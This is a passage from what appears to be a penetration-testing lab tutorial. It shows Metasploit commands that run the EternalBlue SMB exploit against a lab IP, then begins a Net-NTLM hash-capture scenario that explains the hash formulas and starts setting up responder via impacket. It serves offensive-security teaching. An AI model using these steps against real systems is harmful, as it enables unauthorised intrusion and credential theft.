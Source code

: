 ```sh
run
```

Exploit vulnerability
```sh
use exploit/windows/smb/ms17_010_eternalblue
```

```sh
set RHOSTS 192.168.122.163
```

```sh
run
```

### Scenario 6 - Net-NTLM Capture Attack

When a windows client authenticates to an SMB server, the NTLM hash of the client is sent the server for authentication purposes. Depending on the protocol used, the hash is sent in different ways:
- https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4

- `Net-NTLMv1`
```sh
C = 8-byte server challenge, random
K1 | K2 | K3 = LM/NT-hash | 5-bytes-0
response = DES(K1,C) | DES(K2,C) | DES(K3,C)
```

- `Net-NTLMv2`
```sh
SC = 8-byte server challenge, random
CC = 8-byte client challenge, random
CC* = (X, time, CC2, domain name)
v2-Hash = HMAC-MD5(NT-Hash, user name, domain name)
LMv2 = HMAC-MD5(v2-Hash, SC, CC)
NTv2 = HMAC-MD5(v2-Hash, SC, CC*)
response = LMv2 | CC | NTv2 | CC*
```

It is possible to obtain the Net-NTLM hash of a user by forcing a client to authenticate with a fake SMB server. Possible scenarios:

- Phishing to real users
- After a Reverse shell

To setup the responder we proceed as follows:

Install `responder`
```sh
python3 -m venv venv
```

```sh
. venv/bin/activate
```

```sh
pip3 install impacket
```
